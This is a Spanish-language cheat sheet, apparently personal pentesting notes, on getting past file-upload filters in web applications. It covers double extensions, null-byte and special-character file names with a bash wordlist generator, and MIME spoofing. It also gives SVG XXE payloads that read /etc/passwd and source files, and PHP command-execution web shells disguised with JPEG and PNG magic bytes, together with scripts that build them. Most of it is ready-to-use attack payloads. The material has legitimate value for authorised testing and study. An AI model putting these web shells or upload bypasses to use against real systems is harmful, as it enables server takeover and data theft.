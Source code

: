 # Arbitrary File Upload

- Este tipo de ataque se basa en intentar subir archivos arbitrarios a una aplicación web.
- Generalmente se consiguen mediante features de una aplicación para subir imagenes o cualquier tipo de archivo.

## Bypassear filtros

### Whitelist filters bypass
- El servidor web solo permite solo ciertos tipos de archivos.

#### Double extensions
- Si el servidor web solo permite archivos con extensiones especificas, se puede intentar subir archivos con extensiones duplicadas.
- [wordlist de extensiones](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- ejemplo: shell.jpg.php

#### Reverse double extensions
- Es lo mismo que extensiones dobles, pero en este caso se puede intentar subir archivos con extensiones inversas.
- ejemplo: php.jpg
- [wordlist de extensiones dobles php](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

### Character injection
- Se puede intentar subir archivos con caracteres especiales en su nombre.
- `%20`
- `%0a`
-`%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
    - ejemplo: shell.php%00.jpg

#### Código para generar permutaciones de caracteres en bash
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### MIME type filters bypass
- El servidor web solo permite ciertos tipos de archivos basados en su MIME type.
- [wordlist de content types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
- ejemplo: shell.php con content type image/jpeg
- **GIF8 (GIF) o JFIF (JPEG)** al principio del archivo esto hace que el servidor lo interprete como una imagen.

### SVG + XXE file upload
- Se puede intentar subir un archivo SVG con un XXE payload.

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
- Podemos poner wrappers de p
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

-----

### Magic bytes attack


- Se puede intentar subir un archivo con magic bytes que hagan que el servidor lo interprete como un archivo diferente.
- [más info](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [más info x2](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)
- esto se basa en la firma de los archivos, por ejemplo, un archivo .jpg empieza con (en hexadecimal) `FF D8 FF E0 00 10 4A 46 49 46 00 01`
- podemos hacer lo siguiente:
```
AAAA
<?php echo system($_GET["cmd"]);?>
```
- Lo guardamos como shell.phar.jpeg
- Cambiamos el mymetype utilizando hexeditor, poniendo los numeros magicos reemplazando los valores AAAA: `FF D8 FF DB`
```
- También para PNG se puede hacer lo siguiente:

```bash
#!/bin/sh
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png
echo '<?php system($_REQUEST['cmd']); ?>' >> mime_shell.php.png
```

----

- Alternativa

```bash 

#!/bin/bash
# Crear el encabezado PNG (opcional si se necesita disfrazar como imagen)
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > mime_shell.php.png
# Agregar el código PHP correctamente escapado
echo '<?php system($_REQUEST["cmd"]); ?>' >> mime_shell.php.png
```